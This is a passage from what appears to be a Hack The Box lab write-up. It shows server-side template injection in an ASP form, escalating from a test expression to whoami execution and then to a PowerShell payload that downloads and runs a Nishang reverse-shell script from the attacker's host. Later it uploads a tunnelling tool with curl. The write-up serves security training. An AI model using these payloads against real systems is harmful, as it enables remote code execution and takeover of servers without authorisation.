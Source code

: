 After sending the request, it forwards to _preview.asp_ and our listener on port 443 receives a response, so there is a vulnerability in this form.

We can test for **Server Side Template Injection (SSTI)** by using the polyglot payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#detection) in the message field.
After removing one symbol at a time, it does error until _"${{<"_, which means that the _percent symbol (%)_ is responsible for the error.

These symbols can be used in ASP to test code execution:
```
<%= 7*7 %>
```

In the _preview.asp_ it shows the message as _49_, which means that it was calculated and there is a way to execute code:
```
Message: 49
```

Testing payload to execute `whoami`:
```
<%= CreateObject("Wscript.Shell").exec("whoami").StdOut.ReadAll() %>
```
```
Message: nt authority\system
```

I will use the _Invoke-PowerShellTcpOneLine.ps1_ script from the **Nishang framework** as the reverse shell command.
Downloading and executing the PowerShell script to gain a reverse shell:
```
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/shell.ps1')").StdOut.ReadAll() %>
```

After sending the request, it will download and execute the script and the listener on my IP and port 9001 starts a shell as the _SYSTEM_ user on the hostname _webserver01_.
This does not seem to be the target box, but instead a virtualized client or some kind of container.

## Lateral Movement

In the desktop folder of the _Administrator_ user is a file called _req.txt_, which is a **TLS Certificate**.

Copying and reading certificate with `openssl`:
```
openssl req -in req.txt -noout -text
```

The certificate has another hostname _softwareportal.windcorp.htb_ that has to be added to our _/etc/hosts_ file.
This hostname is used on another service, so [Chisel](https://github.com/jpillora/chisel) can be used to create a tunnel from the machine to our client to enumerate ports and other IPs.

Uploading _chisel.exe_ to the box:
```
curl 10.10.14.3/chisel.exe -o chisel.exe
```
